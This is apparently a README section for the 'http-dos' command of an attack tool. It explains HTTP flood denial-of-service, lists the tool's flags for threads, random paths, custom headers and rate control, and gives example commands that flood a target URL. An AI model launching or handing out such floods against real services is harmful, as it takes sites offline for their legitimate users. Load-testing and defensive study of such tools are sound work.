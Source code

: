 **Description:**  
HTTP DoS (Denial of Service) attack targets web applications by overwhelming them with a high volume of HTTP requests. This attack can exhaust server resources, bandwidth, or application worker pools, making the service unavailable to legitimate users.

**Attack Flow:**
```mermaid
sequenceDiagram
    participant A as Attacker
    participant W as Web Server
    loop Multiple Threads
        A->>+W: HTTP Request
        W-->>-A: HTTP Response
    end
```

**Key Features:**
- Multiple HTTP methods support (GET, POST, etc.)
- Custom headers and cookies
- Random path generation
- Request rate control
- Multi-threaded operation
- Response verification

**Parameters:**
- `--target`: Target URL (e.g., http://example.com)
- `--method`: HTTP method (GET, POST, etc.)
- `--path`: Specific URL path to target
- `--headers`: Custom HTTP headers as JSON
- `--cookies`: Custom cookies as JSON
- `--data`: POST data as JSON
- `--threads`: Number of parallel threads
- `--random-path`: Generate random paths
- `--verify-success`: Verify successful requests
- `--timeout`: Request timeout in seconds
- `--rate-limit`: Requests per second per thread

**Example Usage:**
```bash
# Basic HTTP DoS - Simple GET flood
python src/cli.py http-dos \
    --target http://example.com \
    --threads 10

# Advanced HTTP DoS - Custom POST with headers
python src/cli.py http-dos \
    --target http://example.com \
    --method POST \
    --path /api/endpoint \
    --headers '{"X-Custom": "value"}' \
    --cookies '{"session": "abc123"}' \
    --data '{"key": "value"}' \
    --random-path \
    --verify-success
```
